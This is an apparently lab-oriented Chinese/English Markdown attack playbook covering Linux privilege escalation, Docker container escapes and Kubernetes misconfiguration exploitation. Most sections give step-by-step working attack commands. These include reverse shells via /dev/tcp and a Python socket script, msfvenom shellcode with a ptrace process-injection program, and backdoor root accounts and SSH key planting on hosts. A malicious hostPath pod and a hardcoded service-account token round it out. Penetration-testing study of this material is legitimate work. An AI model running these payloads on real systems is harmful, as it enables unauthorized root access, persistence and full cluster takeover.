






# Cloud Attack Surface - 云原生攻击面

## Linux Privilege Escalation - Linux权限提权

### Local PE - 本地提权

#### 基本配置

- 创建普通账号guest

```shell
useradd -m -s /bin/bash guest
su guest
cd
mv .bashrc .bashrc.bk
cp /etc/bash.bashrc .bashrc
source /etc/profile
```

#### SUDO && SUID PE - Sudo和SUID提权

[GTFOBins](https://gtfobins.github.io/)

#### LXD PE - LXD提权

##### 环境搭建

```shell
# 安装lxd服务
apt install -y lxd
# 初始化lxd，一直回车即可
echo -e '\n\n\n\n\n\n\n\n\n\n\n'|lxd init
# 把guest加入lxd用户组
usermod -aG lxd guest
```

##### 攻击方法

- 创建特权容器，挂载宿主机目录

```shell
# 获取alpine镜像包
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
# 加载alpine镜像
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias lxd-pe
# 创建特权容器
lxc init lxd-pe lxd-pe -c security.privileged=true
# 挂载宿主机根目录
lxc config device add lxd-pe mydevice disk source=/ path=/host recursive=true
# 启动容器
lxc start lxd-pe
# 进入容器
lxc exec lxd-pe sh
```


- 获取宿主机权限请看Container Mount GetShell一节

#### Wirtable /etc/passwd PE - 可写的/etc/passwd提权

##### 环境搭建

```shell
chown root:guest /etc/passwd
chmod g+w /etc/passwd
```

##### 攻击方法

- 判断是否对passwd具备写权限

```shell
file=/etc/passwd
[ -w "$file" ] && echo "wirtable" || echo "not wirtable"
unset file
```


- 添加后门账号

```shell
echo "hack:$(openssl passwd -1 123456):0:0:root:/root:/bin/bash" >> /etc/passwd
```

- 获取root权限

```shell
echo -e '123456\n'|su hack
```


#### PATH PE - 环境变量提权

##### 环境搭建

```shell
echo 'PATH="/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin"' > /etc/environment
```

##### 利用条件

- 使用linpeas.sh查看是否存在当前用户可写的环境变量目录


##### 攻击方法

- 创建一个后门，后门名称可以为linux常用命令

```shell
nano ps.c
```

- 编写后门代码

```c
#include<stdlib.h>
void main()
{
	system("cp /bin/bash /tmp/shell;chmod u+s /tmp/shell;/usr/bin/ps");
}
```

- 编译c文件

```shell
gcc ps.c -o ps
```

- 等待root用户执行ps命令，即可获取suid shell

```shell
./shell -p
```


#### Docker Group PE - Docker用户组提权

##### 环境搭建

```shell
adduser guest;usermod -G docker guest;newgrp docker
```

##### 利用条件

```shell
id|grep docker
```


##### 攻击方法

- 挂载宿主机根目录

```shell
docker run --rm -it -h docker-group-pe -v /:/host/ nginx /bin/bash
```



- 获取宿主机权限请看Container Mount GetShell一节

#### Crontab PE - 定时任务提权

##### 攻击方法

- 使用pspy监控root用户进程，发现root用户频繁执行一个shell脚本，推测此进程是root用户的定时任务进程

```shell
./pspy64 |grep UID=0
```



- 查看run.sh脚本权限，发现当前用户具备此脚本的读写权限

```shell
ls -al /home/guest/run.sh
```


- 改写shell脚本，使其生成一个SUID Shell

```shell
echo "cp /bin/bash /home/guest/shell;chmod u+s /home/guest/shell" >> /home/guest/run.sh
```

- 一段时间后，发现当前用户目录下生成了SUID Shell，说明利用成功，执行SUID Shell获取root权限

```shell
ls -al /home/guest/shell
/home/guest/shell -p
```


### Remote PE - 远程提权

#### NFS Unsafe Configuration PE - NFS配置不当提权

##### 环境搭建

- 直接把root目录挂载到共享文件夹

```shell
yum install -y nfs-utils
systemctl start nfs-server
echo "/ *(rw,sync,no_root_squash)" >> /etc/exports
exportfs -ra
```

##### 攻击方法

- 扫描发现nfs服务

```shell
nmap -sT 192.168.25.132 -p 2049
```


- 查看访问权限，所有IP均可访问远程根目录

```shell
showmount -e 192.168.25.132
```


- 创建有个文件夹，挂载远程目录

```shell
mkdir /rmnt
mount 192.168.25.132:/ /rmnt
```



- 获取宿主机权限请看Container Mount GetShell一节

## Container Attack Surface - 容器攻击面

### Insecure Configuration - 不安全的配置

#### Privileged Container Escape - 特权容器逃逸

##### 环境搭建

```shell
docker run --rm --privileged -it -h privileged-escape -v /root/cdk:/cdk ubuntu bash
```

##### 利用条件

```shell
cat /proc/self/status | grep -qi "0000003fffffffff" && echo "Is privileged mode" || echo "Not privileged mode"
```


##### 攻击方法

###### 挂载Disk逃逸

- 使用[CDK](https://github.com/cdk-team/CDK)挂载磁盘

```shell
./cdk run mount-disk
```


- 获取宿主机权限请看Container Mount GetShell一节

###### 挂载Cgroup目录逃逸

```shell
./cdk run mount-cgroup "hostname"
```


#### Socket Mount Escape - Socket挂载逃逸

##### 环境搭建

```shell
docker run --rm -it -h sock-escape -v /root/cdk:/cdk -v /var/run/docker.sock:/var/run/docker.sock ubuntu bash
```

##### 利用条件

- 查看是否存在docker.sock文件

```shell
./cdk run docker-sock-check /var/run/docker.sock
```


##### 攻击方法

- 安装docker命令行

```shell
apt update;apt install -y curl;curl -fsSL https://get.docker.com/|sh
```

- 把宿主机目录挂载到新容器

```shell
docker run --rm -it -h sock-to-host -v /:/host ubuntu bash
```

- 将根目录切换到宿主机目录

```shell
chroot /host cat /etc/hostname
```


#### Procfs Dir Mount Escape - Procfs目录挂载逃逸

##### 环境搭建

```shell
docker run --rm -it -h procfs-escape -v /root/cdk:/cdk -v /proc:/host/proc ubuntu bash
```

##### 利用条件

```shell
find / -name core_pattern 2>/dev/null | wc -l | grep -q 2 && echo "Procfs is mounted." || echo "Procfs is not mounted."
```


##### 攻击方法

###### CDK反弹shell

```shell
./cdk run mount-procfs /host/proc "/bin/bash -i>& /dev/tcp/172.17.0.4/4444 0>&1"
```


###### PWN反弹shell

- 查找容器在宿主机的真实路径，根据下图所示，可判断容器路径为/var/lib/docker/overlay2/c7bb8b127b0a62000202ce285c8871cb57faf0997401bdb588fdb684ee6f2c71/merged

```shell
cat /proc/mounts | xargs -d ',' -n 1 | grep workdir
```


- 编写一个反弹shell的脚本，反弹到容器，或攻击机

```python3
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "172.17.0.2"
lport = 4444
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   s.close()
if __name__ == "__main__":
   main()
```


- 把脚本所在路径写入到proc

```shell
echo -e "|/var/lib/docker/overlay2/c7bb8b127b0a62000202ce285c8871cb57faf0997401bdb588fdb684ee6f2c71/merged/shell.py" > /host/proc/sys/kernel/core_pattern
```


- 创建一个可崩溃的程序break.c，编译并执行

```shell
#include<stdio.h>
int main(void)  {
   int *a  = NULL;
   *a = 1;
   return 0;
}
```


- 给py脚本赋予执行权限，开启监听，反弹宿主机shell

```shell
chmod +x shell.py
```


#### Root Dir Mount Escape - 挂载宿主机根目录逃逸

##### 环境搭建

```shell
docker run --rm -it -h mount-root-escape -v /root/cdk:/cdk -v /:/host/ ubuntu bash
```

##### 利用条件

```
find / -name passwd 2>/dev/null | grep -v diff | grep /etc/passwd | wc -l | grep -q 2 && echo "Root directory is mounted." || echo "Root directory is not mounted."
```


##### 攻击方法

- 获取宿主机权限请看Container Mount GetShell一节

#### Docker API Unauth Escape - Docker API未授权访问逃逸

##### 环境搭建

```shell
# 配置docker api远程未授权访问
dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
# 部署环境
docker run --rm -it -h unauth-api-escape -v /root/cdk:/cdk ubuntu bash
```

##### 利用条件

```shell
IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' ` && timeout 3 bash -c "echo >/dev/tcp/$IP/2375" > /dev/null 2>&1 && echo "Docker Remote API Is Enabled." || echo "Docker Remote API is Closed."
```


##### 攻击方法

- 把宿主机根目录挂载到新的容器

```shell
docker -H tcp://172.17.0.1:2375 run --rm -it -h host-getshell -v /:/host nginx bash
```


- 获取宿主机权限请看Container Mount GetShell一节

#### lxcfs mount escape - lxcfs挂载逃逸

##### 环境搭建

```shell
# 下载lxcfs
wget --no-check-certificate https://copr-be.cloud.fedoraproject.org/results/ganto/lxc3/epel-7-x86_64/01041891-lxcfs/lxcfs-3.1.2-0.2.el7.x86_64.rpm
# 安装lxcfs
yum install -y --skip-broken lxcfs-3.1.2-0.2.el7.x86_64.rpm
# 启动lxcfs
lxcfs /var/lib/lxcfs
# 启动容器环境
docker run --rm -it -h lxcfs-escape -v /root/cdk:/cdk -v /var/lib/lxcfs:/lxcfs:rw ubuntu bash
```

##### 攻击方法

- 获取宿主机读写权限

```shell
./cdk run lxcfs-rw
```


- 进入cgroup的debug模式

```shell
debugfs -w host_dev
```


- 获取宿主机权限请看Container Mount GetShell一节

#### RW Cgroup Escape - 重写Cgroup逃逸

##### 环境搭建

```shell
docker run --rm -it -h cgroup-escape -v /root/cdk:/cdk --cap-add="SYS_ADMIN" ubuntu bash
```

##### 攻击方法

- 获取宿主机读写权限

```shell
./cdk run rewrite-cgroup-devices
```


- 进入cgroup的debug模式

```shell
debugfs -w cdk_mknod_result
```


- 进行写文件提权操作，参考挂载逃逸，略

#### Ptrace Escape - Ptrace逃逸

##### 环境搭建

```shell
docker run --rm -it -h ptrace-escape -v /root/cdk:/cdk --pid=host --cap-add=SYS_PTRACE ubuntu bash
```

##### 利用条件

```shell
./cdk run check-ptrace
```


##### 攻击方法

- 使用msf生成反弹shell的shellcode

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.17.0.4 LPORT=4444 -f c
```


- 编写进程注入代码infect.c，把shellcode注入到内存（PS：注意替换下面代码的SHELLCODE_SIZE和shellcode）

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 74

unsigned char *shellcode = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
"\x48\xb9\x02\x00\x11\x5c\xac\x11\x00\x04\x51\x48\x89\xe6"
"\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce"
"\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48"
"\x89\xe6\x0f\x05";

int inject_data(pid_t pid, unsigned char *src, void *dst, int len) {
  int i;
  uint32_t *s = (uint32_t *)src;
  uint32_t *d = (uint32_t *)dst;

  for (i = 0; i < len; i += 4, s++, d++) {
    if (ptrace(PTRACE_POKETEXT, pid, d, *s) < 0) {
      perror("ptrace(POKETEXT):");
      return -1;
    }
  }
  return 0;
}

int main(int argc, char *argv[]) {
  pid_t target;
  struct user_regs_struct regs;
  int syscall;
  long dst;

  if (argc != 2) {
    fprintf(stderr, "Usage:\n\t%s pid\n", argv[0]);
    exit(1);
  }
  target = atoi(argv[1]);
  printf("+ Tracing process %d\n", target);

  if (ptrace(PTRACE_ATTACH, target, NULL, NULL) < 0) {
    perror("ptrace(ATTACH):");
    exit(1);
  }

  printf("+ Waiting for process...\n");
  wait(NULL);

  printf("+ Getting Registers\n");
  if (ptrace(PTRACE_GETREGS, target, NULL, &regs) < 0) {
    perror("ptrace(GETREGS):");
    exit(1);
  }

  printf("+ Injecting shell code at %p\n", (void *)regs.rip);
  inject_data(target, shellcode, (void *)regs.rip, SHELLCODE_SIZE);

  regs.rip += 2;
  printf("+ Setting instruction pointer to %p\n", (void *)regs.rip);

  if (ptrace(PTRACE_SETREGS, target, NULL, &regs) < 0) {
    perror("ptrace(GETREGS):");
    exit(1);
  }
  printf("+ Run it!\n");

  if (ptrace(PTRACE_DETACH, target, NULL, NULL) < 0) {
    perror("ptrace(DETACH):");
    exit(1);
  }
  return 0;
}
```

- 编译infect.c，并执行infect反弹宿主机shell

```shell
gcc infect.c -o infect
```


#### Container Mount GetShell - 挂载逃逸GetShell指南

##### Crontab GetShell - 写计划任务反弹shell

- 查看容器IP

```shell
./cdk ifconfig
```


- 写入计划任务，把宿主机的shell反弹到容器

```shell
echo "* * * * * /bin/bash -i >& /dev/tcp/172.17.0.2/4444 0>&1" >> /tmp/cdk_HDsqT/var/spool/cron/root
```


- 容器开启nc监听

```shell
./cdk nc -l -v -p 4444
```


##### BackDoor User - 创建后门账号

- 把创建后门账号脚本写到挂载目录下

```shell
echo 'useradd -ou 0 -g 0 hack;echo -e "1qaz@WSX8888\n1qaz@WSX8888\n" |passwd hack' > /tmp/cdk_HDsqT/add.sh
```


- 运行创建后门账号脚本

```shell
chroot /tmp/cdk_HDsqT bash add.sh
```


- ssh远程连接宿主机

```shell
ssh hack@172.17.0.1 -p 27845
```


##### SSH PubKey - 写SSH公钥

- 生成ssh公钥

```shell
ssh-keygen -t ecdsa
```



- 把公钥写到宿主机的ssh目录

```shell
cat /root/.ssh/id_ecdsa.pub >> /tmp/cdk_HDsqT/root/.ssh/authorized_keys
```


- 使用公钥远程连接宿主机

```shell
ssh -i /root/.ssh/id_ecdsa root@172.17.0.1 -p 27845
```


- 写ssh公钥

```shell
ssh -i /root/.ssh/id_ecdsa root@172.17.0.1 -p 27845
```


### Docker Vulnerability - 容器漏洞

|               漏洞编号                |                           Exploit                            |
| :-----------------------------------: | :----------------------------------------------------------: |
|           CVE-2017-1002101            |         https://github.com/bgeesaman/subpath-exploit         |
|           CVE-2018-1002100            |  https://hansmi.ch/articles/2018-04-openshift-s2i-security   |
|            CVE-2018-15664             | https://leihehe.top/2022/01/23/CVE-2018-15664符号链接替换漏洞/ |
|            CVE-2019-14271             |    https://github.com/iridium-soda/CVE-2019-14271_Exploit    |
|           CVE-2019-1002101            |    https://github.com/brompwnie/CVE-2019-1002101-Helpers     |
|            CVE-2019-11246             |                                                              |
|            CVE-2019-11249             |                                                              |
|            CVE-2019-11251             |                                                              |
|            CVE-2019-16884             | https://wiki.teamssix.com/CloudNative/Docker/CVE-2019-16884.html |
|   CVE-2019-5736（docker-runc逃逸）    |       https://github.com/cdk-team/CDK/wiki/CDK-Home-CN       |
| CVE-2020-15257（containerd-shim逃逸） |       https://github.com/cdk-team/CDK/wiki/CDK-Home-CN       |
|            CVE-2020-27151             |                                                              |
|           kata-escape-2020            |                                                              |
|            CVE-2021-25741             |          https://github.com/Betep0k/CVE-2021-25741           |
|            CVE-2021-30465             |      https://mp.weixin.qq.com/s/WRRjLKk_C9pq2WlvnA-NZQ       |
|             CVE-2022-0492             | https://github.com/chenaotian/CVE-2022-0492.git、https://wiki.teamssix.com/CloudNative/Docker/CVE-2022-0492.html |

### Linux Kernel Privilege Escalation - Linux内核提权

|               漏洞编号                |                            Exploi                            |
| :-----------------------------------: | :----------------------------------------------------------: |
| CVE-2016-5195（Dirty Cow - 脏牛漏洞） |          https://github.com/gbonacini/CVE-2016-5195          |
|           CVE-2017-1000112            | https://github.com/Al1ex/LinuxEelvation/tree/master/CVE-2017-1000112 |
|            CVE-2020-14386             |         https://github.com/cgwalters/cve-2020-14386          |
|            CVE-2021-22555             |      https://github.com/xyjl-ly/CVE-2021-22555-Exploit       |
|             CVE-2022-0847             | https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits、https://wiki.teamssix.com/CloudNative/Docker/CVE-2022-0847-dirty-pipe.html |
|             CVE-2021-3493             |         https://github.com/inspiringz/CVE-2021-3493          |
|            CVE-2022-23222             |         https://github.com/tr3ee/CVE-2022-23222.git          |

## Kubernetes Attack Surface - K8S攻击面

### Insecure Configuration - 不安全的配置

#### 基础配置

##### master节点配置

```shell
# 更新源
apt update -y
# 安装工具
apt install -y git wget curl net-tools proxychains python3 python3-pip nano
# 修改hostname
hostnamectl set-hostname master
# 关闭swap分区
swapoff -a
sed -i '/ swap / s/^\(.*\)$/#\1/g' /etc/fstab
# 关闭防火墙
systemctl stop ufw.service
systemctl disable ufw.service
# 克隆metarget项目
git clone https://github.com/Metarget/metarget.git
# 进入metarget目录
cd metarget/
# 安装依赖
pip3 install -r requirements.txt
# 安装docker
./metarget gadget install docker --version 18.03.1
#重启docker服务
systemctl restart docker
# 添加docker daemon配置
echo -e '{\n\t"exec-opts": ["native.cgroupdriver=systemd"]\n}' > /etc/docker/daemon.json
systemctl restart docker
# 安装k8s
./metarget gadget install k8s --version 1.16.5 --domestic
# 设置k8s开机自启动
systemctl enable kubelet
# 查看flannel是否为running，如果不是请排错
kubectl get pod --all-namespaces
```

##### node节点配置//todo

```shell
# 更新源
apt update -y
# 安装工具
apt install -y git wget curl net-tools proxychains python3 python3-pip nano
# 修改hostname
hostnamectl set-hostname node
# 关闭swap分区
swapoff -a
sed -i '/ swap / s/^\(.*\)$/#\1/g' /etc/fstab
# 关闭防火墙
systemctl stop ufw.service
systemctl disable ufw.service
# 克隆metarget项目
git clone https://github.com/Metarget/metarget.git
# 进入metarget目录
cd metarget/
# 安装依赖
pip3 install -r requirements.txt
# 安装docker
./metarget gadget install docker --version 18.03.1
#重启docker服务
systemctl restart docker
# 添加docker daemon配置
echo -e '{\n\t"exec-opts": ["native.cgroupdriver=systemd"]\n}' > /etc/docker/daemon.json
systemctl restart docker
# 安装k8s
./metarget gadget install k8s --version 1.16.5
# 设置k8s开机自启动
systemctl enable kubelet
# 查看flannel是否为running，如果不是请排错
kubectl get pod --all-namespaces
```

#### API Server Unauth - API Server 未授权访问

##### 8080 Port Unauth - 8080端口未授权访问

###### 环境搭建

- 在/etc/kubernetes/manifests/kube-apiserver.yaml文件的kube-apiserver下加入以下配置

```shell
    - --insecure-port=8080
    - --insecure-bind-address=0.0.0.0
```

- 重启k8s服务

```shell
systemctl restart kubelet
netstat -antlp|grep "8080.*kube-api"
```

###### 攻击方法

- 获取宿主机权限请看 Pod Created Get Host 一节

##### 6443 Port Anonymous - 6443端口匿名访问

###### 环境搭建

```shell
kubectl create clusterrolebinding system:anonymous --clusterrole=cluster-admin --user=system:anonymous
```

###### 攻击方法

- 使用[kubectl](https://github.com/kubernetes/kubectl)时会提示输入账号密码，输入任意账号密码即可

```shell
kubectl --insecure-skip-tls-verify -s https://192.168.25.148:6443 get pods -A
```

- 获取宿主机权限请看 Pod Created Get Host 一节

#### ETCD Unauth - ETCD 未授权访问

##### 环境搭建

- 在/etc/kubernetes/manifests/etcd.yaml文件注释，把https改为http

```shell
sed -i 's/client-cert-auth=true/client-cert-auth=false/g' /etc/kubernetes/manifests/etcd.yaml
sed -i 's/https:\/\/192.168.25.148:2379/http:\/\/192.168.25.148:2379/g' /etc/kubernetes/manifests/etcd.yaml
```

- 重启k8s服务

```shell
systemctl restart kubelet
```

##### 攻击方法

- 下载[etcdctl](https://github.com/etcd-io/etcd)工具

```shell
wget https://github.com/etcd-io/etcd/releases/download/v3.5.10/etcd-v3.5.10-linux-amd64.tar.gz
tar xzvf etcd-v3.5.10-linux-amd64.tar.gz
cp etcd-v3.5.10-linux-amd64/etcdctl /usr/bin/
```

- 获取token

```shell
./etcdctl --endpoints=192.168.25.148:2379 get / --prefix --keys-only | grep /secrets/
export target=192.168.25.148:2379
export token_path=$(./etcdctl --endpoints=$target get / --prefix --keys-only | grep /secrets/kube-system/clusterrole)
./etcdctl --endpoints=$target get $token_path -w=fields
```



- 获取宿主机权限请看 CRAC Service Account PE 一节

#### Kubelet 10250 Unauth - Kubelet 10250端口未授权访问

##### 环境搭建

- 修改配置文件并重启k8s服务

```shell
sed -i 's/enabled: false/enabled: true/g' /var/lib/kubelet/config.yaml
sed -i 's/mode: Webhook/mode: AlwaysAllow/g' /var/lib/kubelet/config.yaml
systemctl restart kubelet
```

##### 攻击方法

- 安装漏洞利用工具[kubeletctl](https://github.com/cyberark/kubeletctl)

```shell
wget https://github.com/cyberark/kubeletctl/releases/download/v1.9/kubeletctl_linux_amd64 && chmod +x ./kubeletctl_linux_amd64 && mv ./kubeletctl_linux_amd64 /usr/bin/kubeletctl
```

- 直接获取master权限

```shell
kubeletctl -s 192.168.25.148 -i -p etcd-master -n kube-system -c etcd exec sh
```


#### Kube-Proxy Insecure Configuration - Kube-Proxy 不安全配置

##### 环境搭建

- 允许所有服务器通过master的8888端口访问的apiserver

```shell
kubectl proxy --accept-hosts=^.*$ --address=0.0.0.0 --port=8888 --insecure-skip-tls-verify
```

##### 攻击方法

- 攻击方法参考 API Server 8080 Unauth

#### Pod Created Get Host - 创建Pod获取宿主机权限

- 下载kubectl工具

```shell
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
mv kubectl /usr/bin/
chmod +x /usr/bin/kubectl
```

- 创建漏洞利用文件

```shell
cat > get-master.yml << EOF
apiVersion: v1
kind: Pod
metadata:
  name: get-master
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /host
      name: master-root-dir
  volumes:
  - name: master-root-dir
    hostPath:
      path: /
EOF
```



- 部署后门pod

```shell
kubectl -s 192.168.25.148:8080 create -f get-master.yml
kubectl -s 192.168.25.148:8080 get pods -A|grep get-master
```


- 等待pod变成Running状态后进入pod

```shell
kubectl -s 192.168.25.148:8080 -n default exec -it get-master bash
```


- 获取宿主机权限请看 Container Mount GetShell 一节

### Privilege Escalation - 权限提升

#### CRAC Service Account PE - CRAC 服务账号提权

- 编辑CRAC服务账号的权限，实现提权

```shell
KUBE_EDITOR="nano" kubectl --insecure-skip-tls-verify -s https://192.168.25.148:6443/ --token="eyJhbGciOiJSUzI1NiIsImtpZCI6Imo5MXRDMVNOdFFaUHhHWFRQUTkyUnRRaWlIVG1nS2VhQVdNaERKWXZ3MVEifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjbHVzdGVycm9sZS1hZ2dyZWdhdGlvbi1jb250cm9sbGVyLXRva2VuLXM3OWdtIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImNsdXN0ZXJyb2xlLWFnZ3JlZ2F0aW9uLWNvbnRyb2xsZXIiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiJhMGUyOTJjYi1kZjkxLTQzNzctYWVlMy03ZTE2YmNkNGQ1OTciLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Y2x1c3RlcnJvbGUtYWdncmVnYXRpb24tY29udHJvbGxlciJ9.RIBqOsMtmUoCYfxUwRvfPxqP5er_qIqoUqB7t6zfGT_GL1OSRq-Cl_tmmaX6FCAxgncQkt4UI5_b7B-oUyoYIHGxjjlIKFmJ-9BhrLknPAgEguvkeu0PpStzFqF3TOE96rqLUibjX4J-6NwXQQWXg49p9aJD9a4o5RyyDrjqrYJCizTB2fh2Nicepv-a9E1udOF0O4_zW4HEypMkrffMuvjpJghnoP5B_COeR0P1eYif3NO768IugF2570vIs4WBcaBAW_cv7cJY-FSQcB7cMH7Q5XxlZ3VdQhKe9TZDUxwo0REd6KEotgw-jluqZ6W3aHLNb-Uao46RyPB1Jz5N2w" edit clusterrole system:controller:clusterrole-aggregation-controller
```


- 查看所有pod，到此成功验证获取k8s集群管理员权限

```shell
kubectl --insecure-skip-tls-verify -s https://192.168.25.148:6443/ --token="eyJhbGciOiJSUzI1NiIsImtpZCI6Imo5MXRDMVNOdFFaUHhHWFRQUTkyUnRRaWlIVG1nS2VhQVdNaERKWXZ3MVEifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjbHVzdGVycm9sZS1hZ2dyZWdhdGlvbi1jb250cm9sbGVyLXRva2VuLXM3OWdtIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImNsdXN0ZXJyb2xlLWFnZ3JlZ2F0aW9uLWNvbnRyb2xsZXIiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiJhMGUyOTJjYi1kZjkxLTQzNzctYWVlMy03ZTE2YmNkNGQ1OTciLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Y2x1c3RlcnJvbGUtYWdncmVnYXRpb24tY29udHJvbGxlciJ9.RIBqOsMtmUoCYfxUwRvfPxqP5er_qIqoUqB7t6zfGT_GL1OSRq-Cl_tmmaX6FCAxgncQkt4UI5_b7B-oUyoYIHGxjjlIKFmJ-9BhrLknPAgEguvkeu0PpStzFqF3TOE96rqLUibjX4J-6NwXQQWXg49p9aJD9a4o5RyyDrjqrYJCizTB2fh2Nicepv-a9E1udOF0O4_zW4HEypMkrffMuvjpJghnoP5B_COeR0P1eYif3NO768IugF2570vIs4WBcaBAW_cv7cJY-FSQcB7cMH7Q5XxlZ3VdQhKe9TZDUxwo0REd6KEotgw-jluqZ6W3aHLNb-Uao46RyPB1Jz5N2w" get pods -A
```


- 获取宿主机权限请看 Pod Created Get Host 一节
